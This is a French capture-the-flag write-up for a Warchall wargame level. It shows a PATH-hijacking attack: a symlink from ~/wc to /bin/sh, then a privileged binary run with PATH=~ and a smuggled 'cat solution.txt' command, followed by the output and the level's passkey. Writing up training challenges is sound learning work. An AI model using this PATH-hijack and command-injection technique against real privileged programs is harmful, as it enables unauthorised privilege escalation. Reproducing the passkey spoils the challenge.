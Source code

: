 # 11_choose_your_patch2

1. création de liens symboliques pour exploiter les vulnérabilités: `ln -s /bin/sh ~/wc`
   
* Le fichier `~/wc` deviendra un lien symbolique pointant vers `/bin/sh`.
* Cela peut être utilisé pour créer un alias ou un raccourci vers le shell. Lorsqu'on exécute `~/wc`, cela équivaut à exécuter `/bin/sh`.
* `-s`: L'option qui indique à ln de créer un lien symbolique (au lieu d'un lien dur)

````sh
rantoo@warchall:/home/level/11_choose_your_path2$ ln -s /bin/sh ~/wc
````
2. Après, il faut trouver la solution possible pour lire le contenu de fichier `solution.txt`.
Donc, Ces commandes peuvent suffit pour effectuer notre objectif
````sh
rantoo@warchall:/home/level/11_choose_your_path2$ PATH=~ ./charp2 "/bin/cat solution.txt 1>&2"
````
* `PATH=~` : Cela modifie temporairement la variable d'environnement PATH pour inclure uniquement le répertoire courant, ce qui signifie que le système cherchera les exécutables uniquement dans le répertoire actuel.
* `./charp2` : C'est le fichier à executer dans le répertoire actuel
* `/bin/cat solution.txt`: Cela semble être une tentative d'exécuter la commande cat avec solution.txt
* `1>&2` :  Cela redirige la sortie standard (stdout) vers la sortie d'erreur standard (stderr). Cela signifie que si cat affiche quelque chose à la sortie standard, cela apparaîtra sur la sortie d'erreur standard.

````sh
Counting /bin/cat solution.txt 1>&2 ...
wc: 0: cannot open /bin/cat solution.txt 1>&2: No such file
Cannot scan! Sorry!
Dear challenger,

The original solution.txt of this challenge got lost.

However, here is the new solution: CodingIsDamnHard3.

I have no real idea what it takes to solve this challenge,
so you are obviously a better cracker than me.

Do not forget to vote the challenge!

 - gizmore
 Cannot scan! Sorry!
Floating point exception
````
The passkey is : **CodingIsDamnHard3**
